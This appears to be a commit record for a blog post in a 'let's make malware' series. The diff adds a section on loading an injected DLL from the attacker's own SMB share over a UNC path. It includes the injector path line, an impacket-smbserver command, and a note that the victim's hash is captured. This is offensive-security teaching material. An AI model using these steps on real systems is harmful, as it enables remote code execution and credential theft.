

Before and after one commit to RePRGM/rePRGM.github.io, a Jekyll site: the page built from _posts/2023-01-20-lets-make-malware-part-3.md, in a window 1280 px wide and 1400 px high, scrolled down 7028 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 8115 px from its top, so only the background shows below that.

Commit message:
Update 2023-01-20-lets-make-malware-part-3.md

````diff
--- a/_posts/2023-01-20-lets-make-malware-part-3.md
+++ b/_posts/2023-01-20-lets-make-malware-part-3.md
@@ -192,6 +192,35 @@ To verify this, we can use process hacker to look at the loaded modules (DLLs) o
 
 ![Verifying DLL attached](/assets/dll_injected.png)
 
+Finally, let’s make things a bit more interesting by hosting our DLL on a local system instead of our target. To do this we will make use of UNC paths.
+
+In case you are unfamiliar, UNC stands for Uniform Naming Convention. Simply put, it is the path of a network or remote resource. It looks like this: \\<hostname or IP>\<share name>\<resource>.
+
+To utilize this, we will make one small change to our injector code.
+
+We will change our myDLLPath variable to this and recompile:
+
+```cpp
+char myDLLPath[] = “\\\\192.168.1.24\\TempShare\\myEvilDLL.dll”;
+```
+
+This time, we will host our DLL on our own system on a share. We can do so using either Samba or the Impacket SMBSever.py script. For Impacket, we will use this command:
+
+Note: You may need to provide the absolute path to the script as “impacket-smbserver” is an alias that comes with Kali Linux by default.
+
+impacket-smbserver Share $(pwd) -smb2support
+
+Once our SMB Server is set up and running, we will run our recompiled injector on our target machine once more.
+
+On our local system, we should see the connection.
+
+![Impacket Connection](/assets/dll_injected_remote.png)
+
+We have the added benefit of receiving the user’s hash as well.
+
+And, again, we should see our message box appear! Now, our classic DLL injection is a bit less “classic”.
+
+
 # Resources
 [MSDN: VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
 
````
